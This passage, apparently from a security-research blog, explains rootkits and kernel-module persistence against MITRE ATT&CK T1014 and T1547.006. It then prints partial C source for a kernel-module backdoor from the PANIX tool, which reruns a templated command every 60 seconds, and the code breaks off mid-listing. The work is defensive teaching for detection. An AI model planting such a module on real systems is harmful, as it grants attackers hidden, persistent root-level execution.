 ### T1014 - Rootkit

Rootkits are a class of malicious software designed to conceal their presence and maintain persistent access to a system. They operate at various levels, from user-space applications to kernel-level modules. Kernel-level rootkits leverage LKMs, manipulating kernel behavior to hide processes, files, and network activity, making them difficult to detect.

While rootkits are a broad and advanced topic, they are closely related to T1547.006 - Kernel Modules and Extensions. By modifying kernel structures or intercepting system calls, these rootkits can gain deep control over the system while remaining hidden from standard detection methods. MITRE tracks Rootkits specifically under [T1014](https://attack.mitre.org/techniques/T1014/).

#### Future Work: T1014 - Rootkit

Rootkits are a vast topic deserving dedicated attention. In upcoming publications, we will explore:

* The basics of rootkits.
* Techniques for detecting and hunting rootkits.
* Real-world examples of rootkit attacks and defenses.

For now, understanding how LKMs are used as a vector for kernel rootkits bridges the gap between T1547.006 - Kernel Modules and Extensions and the broader topic of rootkits. This blog lays the groundwork for the in-depth exploration of rootkits to come.

Can’t wait to learn more about rootkits? Read our recent research, “*[Declawing PUMAKIT](https://www.elastic.co/security-labs/declawing-pumakit)*”, a sophisticated LKM rootkit that employs mechanisms to hide its presence and maintain communication with its C2 servers.

#### Persistence through T1547.006 - Kernel Modules and Extensions

While T1547.006 and T1014 share some overlap, PANIX includes two distinct modules: one for a basic LKM and another for a fully implemented rootkit. We’ll begin with the simple LKM using the [setup_lkm.sh](https://github.com/Aegrah/PANIX/blob/main/modules/setup_lkm.sh) module for T1547. As before, this module requires kernel headers and compilation tools to be available on the host. 

The LKM being created is a simple module that spawns a separate thread to execute a specified command. Once the command is executed, the thread enters a sleep state for 60 seconds before repeating the process in an infinite while loop.

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/kthread.h>
#include <linux/delay.h>
#include <linux/signal.h>

static struct task_struct *task;

static int backdoor_thread(void *arg) {
	allow_signal(SIGKILL);
	while (!kthread_should_stop()) {
		char *argv[] = {$command};
		call_usermodehelper(argv[0], argv, NULL, UMH_WAIT_PROC);
		ssleep(60);
	}
	return 0;
}

static int __init lkm_backdoor_init(void) {
	printk(KERN_INFO "Loading LKM backdoor module\\n");
	task = kthread_run(backdoor_thread, NULL, "lkm_backdoor_thread");
	return 0;
}

static void __exit lkm_backdoor_exit(void) {
```